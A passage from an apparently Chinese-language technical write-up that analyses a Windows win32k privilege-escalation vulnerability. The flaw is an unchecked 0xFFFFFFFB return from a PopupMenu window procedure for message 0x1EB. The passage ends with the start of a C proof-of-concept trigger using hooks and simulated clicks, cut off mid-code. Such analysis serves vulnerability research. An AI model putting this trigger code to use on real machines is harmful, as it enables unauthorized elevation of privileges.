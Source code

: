 ![enter image description here](http://drops.javaweb.org/uploads/images/bab801dc65cb0f1b7ce4df398a8c87a11950eb18.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/6a8036b92448b01b5128da43075f28db2e4e0bc4.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/5b924c56cf721402bc81806bb69b735b678d382f.jpg)

程序在`pfnFilterProc`中通过`SetWindowLongA`设置PopupMenu的窗口消息处理函数，那么当xxxCallHook函数返回后，图中的`!(*(_BYTE *)(a1 + 22) & 4)`条件成立，将执行`xxxSendMessageToClient`，该函数内将执行`KeUserModeCallback`，最终调用用户态函数`sub_4013F3`。

![enter image description here](http://drops.javaweb.org/uploads/images/ea8b06242394d9d01484b7bc0dbad0305ef8212e.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/f428810b7f02ab26b53bc60f176da449cedbabb0.jpg)

`sub_4013F3`函数尾部返回了`0xFFFFFFFB`。与`KeUserModeCallback`函数通过v28返回的值相等。为了进一步确认，修改`sub_4013F3`函数返回值为`0xFFFFFFFF`。可以看到v28指向的值变成了`0xFFFFFFF`。

![enter image description here](http://drops.javaweb.org/uploads/images/27a1f185f355447cc9d64ac6663499fb5cd898b2.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/014c7210efb79706598e3c178cc9f4a939777bed.jpg)

通过修改win32.exe中的指令，将`0x40146D`处的`push 0FFFFFFFBh`修改为`push 0FFFFFFFFh`，执行之后发现提权失败。进一步确定由于内核的使用了异常的函数返回值，最终导致了权限提升。

![enter image description here](http://drops.javaweb.org/uploads/images/31cef537b2fd137a53475177645990578bde019c.jpg)

可见在`PopupMenu`的窗口消息处理函数处理0x1EB的消息时，没有判断消息函数的返回值，最终导致了权限提升。 所以漏洞触发的完整过程如下：通过模仿点击事件，`CreatePopupMenu`创建的`PopupMenu`会收到`0x1EB`类型的消息，因为无法拿到`PopupMenu`的窗口句柄，程序并没有办法直接设置`PopupMenu`的窗口消息处理函数，因此首先通过`SetWindowsHookExA`注册钩子函数，在钩子函数中得到`PopupMenu`的窗口句柄，再通过`SetWindowLongA`设置`PopupMenu`的窗口消息处理函数，注册之后，`xxxSendMessageToClient`将调用新的窗口消息处理函数，接收并处理0x1EB的消息。 在新的窗口消息处理函数中，对于消息号为`0x1EB`的消息，函数返回了`0xFFFFFFFB`，最终触发了漏洞。

![enter image description here](http://drops.javaweb.org/uploads/images/41f781335fb8f91e4ed43206de7384514b7c1d13.jpg)

0x02 触发代码
---------

* * *

通过上面的分析，根据win32.exe中代码，稍加简化，可以得到如下的漏洞触发代码。

```
#include"stdafx.h"
#include<windows.h>
DWORD dword_40DA54=0,dword_40DA5C=0;
WNDPROC lpPrevWndFunc = NULL;
LRESULT CALLBACK sub_4014D2(HWND hWnd, UINT Msg, WPARAM wParam, LPARAM lParam )
{
if ( Msg == WM_ENTERIDLE )
  {
if ( dword_40DA5C != 1 )
    {
      dword_40DA5C = 1;
//模仿点击消息，触发0x1EB消息处理，执行pfnFilterProc
      PostMessageA(hWnd, WM_KEYDOWN, 0x28u, 0);
      PostMessageA(hWnd, WM_KEYDOWN, 0x27u, 0);
      PostMessageA(hWnd, WM_LBUTTONDOWN, 0, 0);
    }
  }
return DefWindowProcA( hWnd,Msg,wParam,lParam);
}
int __cdecl sub_401306()
{
  HMENU v0; // ebx@1
  HMENU v1; // edi@4
  MENUITEMINFOA mi; // [sp+Ch] [bp-64h]@1
  MENUITEMINFOA v4; // [sp+3Ch] [bp-34h]@1
```